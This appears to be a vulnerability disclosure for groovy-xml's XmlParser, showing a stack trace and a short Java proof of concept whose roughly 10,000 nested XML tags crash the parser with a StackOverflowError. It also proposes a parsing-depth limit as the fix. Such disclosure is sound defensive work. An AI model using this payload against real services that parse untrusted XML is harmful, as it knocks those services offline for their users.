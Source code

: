 ## StackOverflowError caused by groovy-xml parsing of untrusted XML String
### Description
---
Using groovy-xml to parse untrusted XML String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
          at java.util.AbstractMap.toString(AbstractMap.java:547)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          ...
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)

### PoC
---
        import groovy.util.Node;
        import groovy.xml.XmlParser;
        import org.xml.sax.SAXException;

        import javax.xml.parsers.ParserConfigurationException;
        import java.io.IOException;

        public class ApacheGroovyXmlTest {

            public static String createXmlStr() {
                StringBuilder str = new StringBuilder("Test xml");
                for (int i = 0; i <= 9999; i++) {
                    str.insert(0, "<a>");
                    str.append("</a>");
                }
                return str.toString();
            }

            public static void main(String[] args) throws ParserConfigurationException, SAXException, IOException {
                XmlParser xmlParser = new XmlParser();
                Node node = xmlParser.parseText(createXmlStr());
                System.out.println(node.get("a"));
            }
        }
        
### Rectification Solution
---
Refer to the solution of JSON-java: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([XML.toJSONObject may lead to StackOverflowError which may lead to dos when parses untrusted xml: CVE-2022-45688 #708](https://github.com/stleary/JSON-java/issues/708))

